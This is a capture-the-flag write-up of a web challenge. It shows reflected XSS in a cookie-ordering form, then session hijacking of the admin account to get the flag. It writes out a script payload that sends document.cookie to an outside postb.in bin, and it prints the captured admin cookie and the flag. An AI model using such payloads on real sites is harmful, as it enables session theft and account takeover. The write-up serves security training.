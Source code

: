 # WORK IN PROGRESS

# Cookie Monster
* **Category**: Web Security
* **Points**: 200
* **Challenge**: Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:27734.
* **Hint #1**: If only we could inspect the device's memory while it is running...
* **Hint #2**: You can control the value so select all you want.
* **Hint #3**: If you need an endpoint for a callback, postb.in is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.

<br />

First lets navigate to the challenge in a web browser:
```
http://challenge.acictf.com:27734.
```
![cookiemonster]()

Based on the name of the challenge and some of the hints, we can assume that we are going to [stealing cookies via XSS](https://www.openlearning.com/u/ivanteong/blog/StealingCookiesViaXssUsingPhpOrRequestbin/).  Lets submit a cookie to the cookie monster (random name and ingredients) and [capture the POST request in Burp Suite](https://portswigger.net/burp/documentation/desktop/tools/proxy/getting-started):

<br />

![burp1]()

<br />

There are two parameters potentially vulnerable to XSS, *name* and *ingredients*.  Lets use a simple JavaScript alert to see if the site is vulnerable to Reflected XSS:
```
<script>alert("XSS!")</script>
```

<br /> 

Now place the JavaScript alert in place of one of the ingredients in Burp Suite: 
```
name=Sugar&ingredients=<script>alert("XSS!")</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

<br /> 

Forward the POST request Burp Suite and we get an alert message on the next page:

<br /> 

![alert]()

<br /> 

Now that we know the site is vulnerable to XSS, we can use that to obtain the admin session cookie.  When we slected submit cookie for approval we recived another alert message and a statement saying taht the cookie monster is viewing our cookie.  That will be the point where we should get the cookie.

Use postb.in to received the admin cookie from the victims browser.  After selecting *create bin*, use the URL to craft malicious JavaScript: 
```
<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>
```

<br /> 

Inject the malicious Javascript into the POST just like we did with the alert messsage:
and submit the cookie for approval
```
name=Sugar&ingredients=<script>new Image().src='https://postb.in/1589765685538-7717803197447/malicious.php?code='%2Bdocument.cookie</script>&ingredients=sugar&ingredients=eggs&ingredients=Add+ingredient
```

Refresh the PostBin page and you should see the admin cookie:

<br />

![admincookie]()

<br />

Now that we have the admin cookie 'b4697910-6dbc-4836-851b-a14e7a5bb7d0', we can use this to navigate to the *Cookie Admin* page.  Intercept the GET request in BurpSuite and replace your cookie with the admin cookie:

![burp2]()

<br />

We are presented with a page with a link to *Flag Cookie*.  Click it to get the flag:


<br />

![flagcookie]()

<br />

## Flag: ACI{07c3bc112a56b3d9512b6a54148}



